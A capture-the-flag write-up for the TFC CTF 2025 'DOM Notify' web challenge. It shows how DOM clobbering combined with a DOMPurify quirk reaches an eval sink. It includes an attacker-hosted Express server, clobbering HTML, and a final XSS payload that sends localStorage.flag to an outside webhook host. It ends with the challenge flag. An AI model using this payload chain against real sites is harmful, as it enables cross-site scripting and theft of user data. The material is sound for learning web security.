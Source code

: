 ## TFC CTF 2025 writeup - DOM Notify

## Challenge Description
![](dm1.png)

we are given this a simple note app again where we can insert our content and see the notes.. and this app is not session maintained. The input we give is sanitized using the DOM Purify with the config options below
```js
    content = DOMPurify.sanitize(content, {
        ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'div', 'span'],
        ALLOWED_ATTR: ['id', 'class', 'name', 'href', 'title']
    });
```
and looking at the main.js.. 

```javascript
// window.custom_elements.enabled = true;
const endpoint = window.custom_elements.endpoint || '/custom-divs';

async function fetchCustomElements() {
    console.log('Fetching elements');
    
    const response = await fetch(endpoint);
    if (!response.ok) {
      throw new Error(`HTTP error! status: ${response.status}`);
    }

    const customElements = await response.json();
    console.log('Custom Elements fetched:', customElements);

    return customElements;
}

function createElements(elements) {
    console.log('Registering elements');
    
    for (var element of elements) {
        // Registers a custom element
        console.log(element)
        customElements.define(element.name, class extends HTMLDivElement {
            static get observedAttributes() { 
                if (element.observedAttribute.includes('-')) {
                    return [element.observedAttribute]; 
                }

                return [];
            }
            
            attributeChangedCallback(name, oldValue, newValue) {
                // Log when attribute is changed
                eval(`console.log('Old value: ${oldValue}', 'New Value: ${newValue}')`)
            }
        }, { extends: 'div' });
    }
}

// When the DOM is loaded
document.addEventListener('DOMContentLoaded', async function () {
    const enabled = window.custom_elements.enabled || false;
    
    // Check if the custom div functionality is enabled
    if (enabled) {
        var customDivs = await fetchCustomElements();
        createElements(customDivs);
    }
});

```

the javascript fetches a JSON from an endpoint and the JSON contains a set of custom elements which is then defined and extended as `div`.  

For example.. an element `fancy-div` is defined and extended to div... so one can use the `<div is=fancy-div>` to inherit the features of fancy div....

And here the special features of the custom elements are that it puts attribute name(not value) that includes `-` into its observed attributes list and where the attribute value is changed the following line is triggered
```
eval(`console.log('Old value: ${oldValue}', 'New Value: ${newValue}')`)
```
But the whole feature seems to be disabled. 

## Finding Bugss
Straight forward we see the DOM Clobbering bugs👾 that helps us enable the feature and we can also clobber the endpoint value so the custom element and the observed attribute can be controlled by  attacker owned server. 

Now the important part.. what custom-element and observed attribute can be set... ? 

Turns out Dom Purify allows certain set of attributes even though a whitelist config is given. Here is an example
![](dm2.png)

![](dm3.png)

But the DOM Purify strips the value of is attribute.. here is where this line in utils.js comes to rescue..  `content = content.replace(/""/g, 'invalid-value');`

See how the is attribute's value is changed...

![](dm4.png)

![](dm5.png)

And the DOM Purify also allows `aria-label` attribute without stripping the value... i also read the documentation of `customElements.define` 

![](dm9.png)

So we dont have to go through the suffering of making the value of observed attribute changing.. just initialzing is enough.. 😫 And eval is an obvious one. We can inject js into the eval to trigger xss👾.

## Attack Plan

1. We Clobber the value of `window.custom_elements.enabled`  and `window.custom_elements.endpoint`  with a server controlled by attacker. 
2. we create the server that returns the JSON `{ name: 'invalid-value', observedAttribute: 'aria-label' }` making sure it has header `Access-Control-Allow-Origin` with `*`
```
const express = require('express');
const app = express();
const PORT = 3838;

// Middleware to add CORS headers
app.use((req, res, next) => {
  res.header("Access-Control-Allow-Origin", "*"); // allow all origins
  next();
});

// Route to serve your custom elements JSON
app.get('/custom-divs', (req, res) => {
  const customElements = [
    { name: 'invalid-value', observedAttribute: 'aria-label' }
  ];
  res.json(customElements);
});

// Start server
app.listen(PORT, () => {
  console.log(`Server is running at http://localhost:${PORT}`);
});
```
3.Making sure we can control the value injected in eval using the following PoC
```
<a id="custom_elements">


<a id="custom_elements" name="enabled"></a>
<a id="custom_elements" name="endpoint" href="http://7df4af886a2c90.lhr.life/custom-divs"></a>
</a>

<div is="" aria-label="sasadsa"></div>

```
![](dm6.png)

6. sasadsa!!! Now replace it with `');alert(1);//`
7. dOne
![](dm7.png)


## Solution

```
<a id="custom_elements">


<a id="custom_elements" name="enabled"></a>
<a id="custom_elements" name="endpoint" href="https://eb4c6d3f5ecff9.lhr.life/custom-divs"></a>
</a>

<div is="" aria-label="');setTimeout(()=>{window.location='https://webhook.com/'+localStorage.flag},300);//"></div>
```

## Conclusion
Had so much solving it.... easy one tho. If you are not clear about Dom clobbering a url value.. check out portswigger DOM clobbering lessons.. and if anything else email me.

## Flag
![](dm8.png)

`TFCCTF{t0_1s_0r_n0t_to_1s}`
